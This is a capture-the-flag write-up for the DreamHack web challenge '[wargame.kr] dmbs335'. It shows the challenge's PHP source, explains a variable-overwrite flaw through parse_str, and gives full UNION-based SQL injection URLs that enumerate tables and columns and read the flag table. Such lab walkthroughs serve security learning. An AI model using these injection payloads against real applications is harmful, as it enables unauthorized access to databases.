

# [wargame.kr] dmbs335 — DreamHack

> **Room / Challenge:** [wargame.kr] dmbs335 (Web)

---

## Metadata

- **Author:** `jameskaois`
- **CTF:** DreamHack
- **Challenge:** [wargame.kr] dmbs335 (web)
- **Link**: `https://dreamhack.io/wargame/challenges/344`
- **Level:** `2`
- **Date:** `20-11-2025`

---

## Goal

Leveraging SQL Injection to get the flag.

## My Solution

Visit [http://host8.dreamhack.games:19978/?view-source](http://host8.dreamhack.games:19978/?view-source) to get the source of the page:

```php
<?php

if (isset($_GET['view-source'])) {
        show_source(__FILE__);
        exit();
}

include("./inc.php"); // Database Connected

function getOperator(&$operator) {
    switch($operator) {
        case 'and':
        case '&&':
            $operator = 'and';
            break;
        case 'or':
        case '||':
            $operator = 'or';
            break;
        default:
            $operator = 'or';
            break;
}}

if(preg_match('/session/isUD',$_SERVER['QUERY_STRING'])) {
    exit('not allowed');
}

parse_str($_SERVER['QUERY_STRING']);
getOperator($operator);
$keyword = addslashes($keyword);
$where_clause = '';

if(!isset($search_cols)) {
    $search_cols = 'subject|content';
}

$cols = explode('|',$search_cols);

foreach($cols as $col) {
    $col = preg_match('/^(subject|content|writer)$/isDU',$col) ? $col : '';
    if($col) {
        $query_parts = $col . " like '%" . $keyword . "%'";
    }

    if($query_parts) {
        $where_clause .= $query_parts;
        $where_clause .= ' ';
        $where_clause .= $operator;
        $where_clause .= ' ';
        $query_parts = '';
    }
}

if(!$where_clause) {
    $where_clause = "content like '%{$keyword}%'";
}
if(preg_match('/\s'.$operator.'\s$/isDU',$where_clause)) {
    $len = strlen($where_clause) - (strlen($operator) + 2);
    $where_clause = substr($where_clause, 0, $len);
}


?>
```

The vulnerability here is this command `parse_str($_SERVER['QUERY_STRING']);`, this command will make a variable for every query params pass to the page. For example, if we add `?a=1`, in PHP it will automatically create a variable `$a = 1`. This means we can overwrite or initialize any variables.

With this line of code:

```php
foreach($cols as $col) {
    // Validation Logic
    $col = preg_match('/^(subject|content|writer)$/isDU',$col) ? $col : '';

    if($col) {
        // If validation passes, $query_parts is overwritten safely
        $query_parts = $col . " like '%" . $keyword . "%'";
    }

    // VULNERABILITY HERE
    if($query_parts) {
        $where_clause .= $query_parts;
        // ...
        $query_parts = '';
    }
}
```

If we provide an `search_cols` that files the regex the `cols` will be empty, and we can initialize whatever `$query_parts` we wants. Here is the exploit strategy:

- Find tables containing flag.
- Find column that save flag value.
- Get the flag by column in that table.

```
/?search_cols=dummy&query_parts=1=1%20union%20select%201,table_name,3,4%20from%20information_schema.tables#
```

We can find the tables containing the flag: `Th1s_1s_Flag_tbl`

```
/?search_cols=dummy&query_parts=1=1%20union%20select%201,column_name,3,4%20from%20information_schema.columns%20where%20table_name=%27Th1s_1s_Flag_tbl%27#
```

Found the column in that table saves the flag value: `f1ag`

Get the flag:

```
?search_cols=dummy&query_parts=1=1%20union%20select%201,f1ag,3,4%20from%20Th1s_1s_Flag_tbl%23
```


